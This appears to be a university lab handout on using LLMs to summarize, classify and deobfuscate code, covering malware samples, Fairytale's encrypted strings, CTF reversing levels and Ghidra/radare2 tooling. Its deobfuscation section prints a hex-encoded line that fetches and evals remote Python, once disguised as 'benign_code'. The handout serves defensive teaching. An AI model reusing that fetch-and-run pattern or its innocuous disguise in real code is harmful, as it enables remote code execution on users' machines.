


Using an LLM such as ChatGPT, Gemini , or Copilot to aid in documenting, summarizing, classifying, analyzing, and reverse-engineering code, can save a developer and an analyst a substantial amount of time and effort. However, to leverage this capability, one must be able to understand what tasks the models are reliably capable of doing to prevent errors. In this lab, you will utilize LLMs to analyze different code examples and determine whether the result is accurate. To begin with, change into the code directory for the exercises and install the packages.
cd gensec-class git pull cd 08_Summarization_ReverseEng uv init --python 3.13 --bare uv add -r requirements.txt
Code summarization is often done by humans in order to generate documentation that can be used to allow others to understand code. One of the more reliable uses for LLMs is to produce such documentation. In Python, docstrings are used to provide this information. Consider the code below that reverses a string, but does not have any documentation associated with it.
def string_reverse(str1):
reverse_str1 = ''
i = len(str1)
while i > 0:
reverse_str1 += str1[i - 1]
i = i- 1
return reverse_str1The documentation for this function can be provided in a number of formats. It's a labor-intensive and error-prone task for a developer to craft appropriate documentation in a particular formatting convention. Use an LLM to automatically generate the documentation of the above function in the sphinx format.
Repeat the generation using the numpy format for the code below:
def connect(url, username, password):
try:
response = requests.get(url, auth=(username, password))
response.raise_for_status()
return response.text
except requests.RequestException as e:
print(f"Error: {e}\nThis site cannot be reached")
sys.exit(1)When summarizing code, we can programmatically parse the program based on the language it is written in before sending it to an LLM for analysis. Within the directory, there's a Python parsing program that uses the GenericLoader document loader and LanguageParser parser to implement a Python code summarizer.
def summarize(path):
loader = GenericLoader.from_filesystem(
path,
glob="*",
suffixes=[".py"],
parser=LanguageParser(language="python"),
)
docs = loader.load()
prompt1 = PromptTemplate.from_template("Summarize this Python code: {text}")
chain = (
{"text": RunnablePassthrough()}
| prompt1
| llm
| StrOutputParser()
)
output = "\n".join([d.page_content for d in docs])
result = chain.invoke(output)View the source file in the src directory to get an understanding of what it does.
Run the program in the repository below:
uv run 01_code_summarize.py
Within the program's interactive shell, have the program summarize the file.
malware/p0.py
Understanding unknown code is a task one might give an LLM, especially if the amount of code fits within the context window of a model. For example, one might use an LLM to determine whether or not code that has been downloaded from the Internet is malicious or not. Such an approach might be used to detect and prevent execution of malware that hijacks resources on a computer system, performs ransomware, or sets up a backdoor.
Examine the code for the program.
Then, use the prior program to summarize the code.
Examine the code for the program.
Then, use the prior program to summarize the code.
Examine the code for the program.
Then, use the prior program to summarize the code.
Examine the code for the program.
Then, use the prior program to summarize the code.
Examine the code for the program taken from an article on LLM-assisted malware analysis of Python packages. Its original source can be found here.
Then, use the prior program to summarize the code.
Another example from the article is also included. Its original source can be found here.
Then, use the prior program to summarize the code.
Classifying unknown code is a task one might give an LLM as well. Similar to the prior exercise, we can configure a prompt to have an LLM analyze whether or not code performs specific operations that might be indicative of malware such as:
We can slightly modify our prior code to ask an LLM to evaluate whether a particular program performs each operation. This is done via a prompt shown below:
You are an advanced security analyst. Your task is to perform a behavioral analysis looking for specific behaviors such as:
- **Data exfiltration**: Detect if data is sent off-machine or communicates with external IPs or servers.
- **File creation**: Identify instances where files are created, deleted, or modified in the file system.
- **Process launching**: Detect if new processes are launched or system commands are executed.
- **Environment variable access**: Determine if environment variables are read or modified.LLMs are good at returning output that matches a given format. For this exercise, we can specify the results be returned in JSON via the prompt as well:
For each behavior detected, provide supporting evidence and assign a confidence score (0 to 1).
Respond in JSON format with the following structure:
{{
"behavior_analysis": [
{{ "data_exfiltration": {{ "detected": true/false, "confidence": 0-1, "evidence": "description of findings", "code_snippet": "snippet of code" }} }},
{{ "file_creation": {{ "detected": true/false, "confidence": 0-1, "evidence": "description of findings", "code_snippet": "snippet of code" }} }},
...
}}Run the program in the repository below to perform program classifications.
uv run 02_code_classify.py
Within the program's interactive shell, have the program classify the file. For each classification category that is marked as 'true'
code_snippet returned for each that the LLM identifies as evidenceHave the program classify the file. For each classification category that is marked as 'true'
code_snippet returned for each that the LLM identifies as evidenceHave the program classify the file. For each classification category that is marked as 'true'
code_snippet returned for each that the LLM identifies as evidenceHave the program classify the file. For each classification category that is marked as 'true'
code_snippet returned for each that the LLM identifies as evidenceHave the program classify the file. For each classification category that is marked as 'true'
code_snippet returned for each that the LLM identifies as evidenceHave the program classify the file. For each classification category that is marked as 'true'
code_snippet returned for each that the LLM identifies as evidenceHave the program classify the file. For each classification category that is marked as 'true'
code_snippet returned for each that the LLM identifies as evidenceOpen-source repositories managed via git are often targets for malicious software developers. Adversaries can publish malicious repositories, submit malicious commits, or initiate malicious pull requests. Automatically monitoring and reporting on potential threats and vulnerabilities in a repository can be useful with several services such as GitHub's Dependabot and Snyk's code analysis offerings providing real-time notifications on potential issues in a codebase. However, adversaries have been known to flood repositories with malicious pull requests that masquerade as legitimate services such as Dependabot attempting to patch vulnerable code in order to trick a maintainer into installing an info stealer shown below.

With repository maintainers receiving many pull requests from other developers wishing to add functionality or fix bugs in the codebase, it is important to verify that the requests are legitimate. Understanding unknown code is a task one might give an LLM, especially as a first pass, to reduce the load on the repository maintainer. In this exercise, we will combine an LLM's code analysis and summarization abilities with Python support for navigating GitHub repositories.
For the following exercises, we will use the 03_github/github_client.py agent to study
github repositories: analyzing the contents of files in a repository given its path,
identify the last commit that modified the file, and obtain the changes made as a result of that commit.
Below is the FastAgent agent program. Note that it does not work with Gemini LLMs, so you will need to
select a different model when prompted. GPT-55 is a good choice.
import asyncio
from fast_agent.core.fastagent import FastAgent
from fast_agent.llm.model_factory import ModelFactory
from fast_agent.llm.provider_types import Provider
import questionary
# Create the application
fast = FastAgent("Code Analysis Agent")
# ... model selection details omitted ...
@fast.agent(
instruction=f"You are a code analysis assistant. Your task is to analyze source code repositories using the tools provided.",
model=model,
servers=["github_remote"],
use_history=True,
)
async def main():
async with fast.run() as agent:
await agent.interactive()
if __name__ == "__main__":
asyncio.run(main())
For this exercise, analize the file malware/p5.py in the repository.
Use the agent to retrieve the file contents, explain what the file does and describe all
unsafe and malicious actions it performs in relation with publicized attack patterns and techniques
Modern malware utilizes a range of encoding and encryption techniques to hide itself from detection. In reverse-engineering these pieces of malware, one would like to automate the task. Consider the OSX.Fairytale malware that uses XOR with the byte 0x30 to encrypt a string followed by Base64 to encode the result in order to hide it from anti-malware detectors looking for particular strings. An assembly snippet that shows the decoding of is shown below:

A set of encrypted strings found in the malware is below.
U1hRXl5VXA== cV5EWR1mWUJFQw== H1JZXh9cUUVeU1hTRFw= WEREQAofH0JDBgReQlweWV5WXx9CVVFUUUVEX1lAHkBYQA9AQlVWWUgNRUBUCg==
Prompt an LLM to decrypt the strings automatically without giving it any information.
Next, repeat the prompt but give the LLM additional information that it may use XOR encryption or is part of the Fairytale malware
Finally, repeat the prompt, but give the LLM the entire encryption algorithm including the XOR key used and ask it to perform the decryption. If it can not do the operation, ask it for Python code you can run to decrypt the strings. Ensure you have produced the decrypted strings.
One of the common uses for an LLM is to generate obfuscated, polymorphic code that can evade detection from security monitors. An LLM can reverse simple encryption techniques like the one shown below.
code = """
func = __builtins__["svyr".decode("rot13")]
func("test.txt", "w").write("Kaboom!\\n")
"""
s.execute(code)Prompt an LLM to reverse engineer this code.
LLMs can also easily undo encoding mechanisms designed to disguise functionality. Consider the Python code below.
exec(''.join([chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(34)+chr(72)+chr(101)+chr(108)+chr(108)+chr(111)+chr(32)+chr(119)+chr(111)+chr(114)+chr(108)+chr(100)+chr(33)+chr(34)+chr(41)]))Prompt an LLM, identify the function of this code and deobfuscate it to generate its original form.
An LLM that deobfuscates then analyzes code for malicious intent can be useful if it can do so reliably. Consider the code below.
import requests
eval(requests.get('\x68\x74\x74\x70\x73\x3a\x2f\x2f\x70\x61\x73\x74\x65\x62\x69\x6e\x2e\x63\x6f\x6d\x2f\x72\x61\x77\x2f\x66\x38\x34\x64\x66\x77\x30\x6d').text)Run the code manually and determine its function. Then, ask an LLM to determine the function of the code.
An equivalent program is shown below, but with a bit of social engineering to make it appear innocuous.
import requests
def benign_code():
"" This code downloads additional benign functionality from a remote server. ""
eval(requests.get('\x68\x74\x74\x70\x73\x3a\x2f\x2f\x70\x61\x73\x74\x65\x62\x69\x6e\x2e\x63\x6f\x6d\x2f\x72\x61\x77\x2f\x66\x38\x34\x64\x66\x77\x30\x6d').text)
foo = 'Benign code has been executed'In a new session, ask an LLM to the same questions again.
Consider the code below that is part of a CTF level in src/bloat.py. Your goal is to find the flag associated with the level.
import sys
a = "!\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ"+ \
"[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~ "
def arg133(arg432):
if arg432 == a[71]+a[64]+a[79]+a[79]+a[88]+a[66]+a[71]+a[64]+a[77]+a[66]+a[68]:
return True
else:
print(a[51]+a[71]+a[64]+a[83]+a[94]+a[79]+a[64]+a[82]+a[82]+a[86]+a[78]+\
a[81]+a[67]+a[94]+a[72]+a[82]+a[94]+a[72]+a[77]+a[66]+a[78]+a[81]+\
a[81]+a[68]+a[66]+a[83])
sys.exit(0)
return False
def arg111(arg444):
return arg122(arg444.decode(), a[81]+a[64]+a[79]+a[82]+a[66]+a[64]+a[75]+\
a[75]+a[72]+a[78]+a[77])
def arg232():
return input(a[47]+a[75]+a[68]+a[64]+a[82]+a[68]+a[94]+a[68]+a[77]+a[83]+\
a[68]+a[81]+a[94]+a[66]+a[78]+a[81]+a[81]+a[68]+a[66]+a[83]+\
a[94]+a[79]+a[64]+a[82]+a[82]+a[86]+a[78]+a[81]+a[67]+a[94]+\
a[69]+a[78]+a[81]+a[94]+a[69]+a[75]+a[64]+a[70]+a[25]+a[94])
def arg132():
return open('flag.txt.enc', 'rb').read()
def arg112():
print(a[54]+a[68]+a[75]+a[66]+a[78]+a[76]+a[68]+a[94]+a[65]+a[64]+a[66]+\
a[74]+a[13]+a[13]+a[13]+a[94]+a[88]+a[78]+a[84]+a[81]+a[94]+a[69]+\
a[75]+a[64]+a[70]+a[11]+a[94]+a[84]+a[82]+a[68]+a[81]+a[25])
def arg122(arg432, arg423):
arg433 = arg423
i = 0
while len(arg433) < len(arg432):
arg433 = arg433 + arg423[i]
i = (i + 1) % len(arg423)
return "".join([chr(ord(arg422) ^ ord(arg442)) for (arg422,arg442) in zip(arg432,arg433)])
arg444 = arg132()
arg432 = arg232()
arg133(arg432)
arg112()
arg423 = arg111(arg444)
print(arg423)
sys.exit(0)Use an LLM to deobfuscate the code and produce the decrypted flag.
Once you have been able to reverse the code, change into the src directory and solve the level:
cd src
python3 bloat.pyReverse engineering binary code is often done when dealing with malicious code. Many automated tools have been created for reverse-engineering and are often built using heuristics gleaned from analyzing a large corpora of binary payloads manually. Large-language models perform a similar function and could potentially be used to help reverse-engineer difficult payloads automatically. Below is the assembly version of a CTF level for binary reverse engineering. It asks for a password string from the user, then prints "Good Job." if it is correct.
.file "program.c"
.text
.section .rodata
.LC0:
.string "Enter the password: "
.LC1:
.string "%10s"
.LC2:
.string "ViZjc4YTE"
.LC3:
.string "Try again."
.LC4:
.string "Good Job."
.text
.globl main
.type main, @function
main:
.LFB0:
leal 4(%esp), %ecx
andl $-16, %esp
pushl -4(%ecx)
pushl %ebp
movl %esp, %ebp
pushl %ecx
subl $20, %esp
movl $0, -12(%ebp)
subl $12, %esp
pushl $.LC0
call printf
addl $16, %esp
subl $8, %esp
leal -24(%ebp), %eax
pushl %eax
pushl $.LC1
call __isoc99_scanf
addl $16, %esp
movb $77, -13(%ebp)
movzbl -24(%ebp), %eax
cmpb %al, -13(%ebp)
je .L2
movl $1, -12(%ebp)
.L2:
leal -24(%ebp), %eax
addl $1, %eax
subl $8, %esp
pushl $.LC2
pushl %eax
call strcmp
addl $16, %esp
testl %eax, %eax
je .L3
movl $1, -12(%ebp)
.L3:
cmpl $0, -12(%ebp)
je .L4
subl $12, %esp
pushl $.LC3
call puts
addl $16, %esp
jmp .L5
.L4:
subl $12, %esp
pushl $.LC4
call puts
addl $16, %esp
.L5:
movl $0, %eax
movl -4(%ebp), %ecx
leave
leal -4(%ecx), %esp
ret
.LFE0:
.size main, .-main
.ident "GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0"
.section .note.GNU-stack,"",@progbitsPrompt an LLM to see what it thinks the assembly code does to see if it is able to correctly identify the purpose of the binary and the user input that would cause this program to print "Good Job."
The source code of the level is shown below.
#include <string.h>
#define USERDEF0 'M'
#define USERDEF1 "ViZjc4YTE"
int main()
{
char c0;
int flag=0;
char user_input[11];
printf("Enter the password: ");
scanf("%10s",user_input);
c0=USERDEF0;
if (user_input[0] != c0) flag=1;
if (strcmp(user_input+1,USERDEF1)) flag=1;
if (flag)
printf ("Try again.\n");
else
printf("Good Job.\n");
return 0;
}Given the source code of the program, ask an LLM to explain it and see if it correctly identifies it as the original source code of the binary and can provide the user input that causes the program to print "Good Job."
LLMs are great at summarizing sequential text, but most LLMs have not been trained on binary program data. To ensure this limitation doesn't prevent us from reverse-engineering the binary accurately, we can convert binary program data into a more concise and interpretable format before asking an LLM to perform the task. In this exercise, we'll leverage an external reverse engineering tool called Ghidra that is purpose-built to decompile binary program files. The output of this tool can then be used to perform an analysis. This pattern of utilizing purpose-built tools by an LLM agent rather than having the LLM perform, not only makes the task more accurate, it can also save substantial computational costs.
Bring up the course VM and ssh into it. Install the necessary dependencies:
sudo apt update -y sudo apt install openjdk-21-jdk -y cd $HOME wget https://github.com/NationalSecurityAgency/ghidra/releases/download/Ghidra_11.0.3_build/ghidra_11.0.3_PUBLIC_20240410.zip unzip ghidra_11.0.3_PUBLIC_20240410.zip mv ghidra_11.0.3_PUBLIC ghidra echo 'export PATH=$PATH:$HOME/ghidra/support' >> ~/.bashrc source ~/.bashrc
Now that Ghidra is installed and the support folder is in the path, we can use the headless script in the folder to summarize binary files.The Python program in the repository calls analyzeHeadless with the -postScript tag to analyze the binary file.
command = [
"analyzeHeadless",
project_dir,
project_name,
"-import",
binary_path,
"-postScript",
script_path
]
# Execute the command
result = subprocess.run(command, text=True, capture_output=True)Then, a utility program (src/ghidra_example/jython_getMain.py) invokes Ghidra's decompiler to produce a function-level decompilation into C code. The program first creates a decompiler interface and then initializes the decompiler with the program argument. The monitor is used to monitor the progress made during the analysis.
decompiler = DecompInterface()
decompiler.openProgram(program)
monitor = ConsoleTaskMonitor()The function manager manages all of the functions that are detected in the binary. The getFunctions(True) line will return an iterator over all of the functions detected in the binary.
function_manager = program.getFunctionManager()
functions = function_manager.getFunctions(True) # True to iterate forwardThen the program iterates over the returned functions, looking for functions that start with "main". When functions that start with "main" are found it will try to decompile the function and if that succeeds it will print the C code of the function
results = decompiler.decompileFunction(function, 0, monitor)
if results.decompileCompleted():
print("Decompiled_Main: \n{}".format(results.getDecompiledFunction().getC()))
else:
print("Failed to decompile {}".format(function.getName()))The output of this step can then be fed back to our original program for analysis.
Run the program:
uv run 04_ghidra.py
Find the decompiled C code that checks for the password
Take the flag generated by the program, then run the binary file and enter the flag:
./src/ghidra_example/asciiStrCmp
Similar to Ghidra, the radare2 suite of reverse engineering tools can also be used to augment the reverse engineering process in order to aid the LLM in its analysis. To begin with, setup the tools to build the radare2 decompiler, then use the radare2 package manager r2pm to install the decompiler package.
sudo apt update -y
sudo apt install -y meson ninja-build
r2pm -U
r2pm -ci r2decConsider the code below that utilizes r2's scripting support r2pipe to open up an executable in r2 and execute a simple decompilation process on it. Upon returning the result of decompilation, the tool then sends the results to the LLM to analyze.
prompt1 = PromptTemplate.from_template("""You are an expert reverse engineer, tasked with finding the flag by analyzing the code that is provided.
Here is the code:
{code}
Find the flag!
""")
# Open the binary using r2pipe
r2 = r2pipe.open(program)
# Perform initial analysis with radare2
# Do not show output of these two commands
_ = r2.cmd("aaa") # Analyze all functions and references
_ = r2.cmd("s main") # Seek to the main function, if exists
# Attempt to decompile the main function
output = r2.cmd("pdd")
# Send output to chain
chain = (
{'code':RunnablePassthrough()}
| prompt1
| llm
| StrOutputParser()
)
llm_result = chain.invoke(output)Run the program:
uv run 05_radare2.py
Find the decompiled code generated by the decompiler
Take the flag generated by the program, then run the binary file and enter the flag:
./src/ghidra_example/asciiStrCmp